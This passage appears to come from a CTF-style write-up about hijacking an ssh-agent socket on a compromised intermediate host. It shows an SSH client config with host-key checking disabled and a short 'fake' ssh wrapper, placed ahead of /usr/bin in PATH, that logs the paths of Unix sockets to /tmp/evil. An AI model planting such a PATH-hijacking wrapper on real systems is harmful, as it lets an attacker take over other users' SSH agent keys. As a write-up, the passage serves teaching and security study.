 ```
#   GSSAPIKeyExchange no
#   GSSAPITrustDNS no
#   BatchMode no
#   CheckHostIP yes
#   AddressFamily any
#   ConnectTimeout 0
    StrictHostKeyChecking no
    UserKnownHostsFile /dev/null
    LogLevel QUIET
#   IdentityFile ~/.ssh/id_rsa
#   IdentityFile ~/.ssh/id_dsa
#   IdentityFile ~/.ssh/id_ecdsa
#   IdentityFile ~/.ssh/id_ed25519
#   Port 22
#   Protocol 2
#   Ciphers aes128-ctr,aes192-ctr,aes256-ctr,aes128-cbc,3des-cbc
#   MACs hmac-md5,hmac-sha1,umac-64@openssh.com
#   EscapeChar ~
#   Tunnel no
#   TunnelDevice any:any
#   PermitLocalCommand no
#   VisualHostKey no
#   ProxyCommand ssh -q -W %h:%p gateway.example.com
#   RekeyLimit 1G 1h
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
```

This can only mean one thing: someone in the `docker` host has a private key stored in the memory of a `ssh-agent`, which makes SSH login to a destination server through an intermediate server painless and password-less. However, in the event the intermediate server is compromised, an attacker can easily hijack the Unix socket used for communicating with the agent for nefarious purposes.

Towards that end, I switched the actual `ssh` at `/usr/bin/ssh` for a "fake" `ssh` at `/usr/local/bin/ssh`, which is nothing more than the following script.

```bash
#!/bin/bash

/usr/bin/ssh $@; find / -type s 2>/dev/null >/tmp/evil
```

Check out the `PATH` environment variable.


{% include image.html image_alt="aa4719db.png" image_src="/f8dd83a8-2193-4ced-a27e-b9c1cb3564d3/aa4719db.png" %}


Notice that `/usr/local/bin` is at a higher executable search priority than `/usr/bin`?

Once the "fake" `ssh` is executed, the path to the Unix socket used for communicating with the agent is saved to `/tmp/evil`.
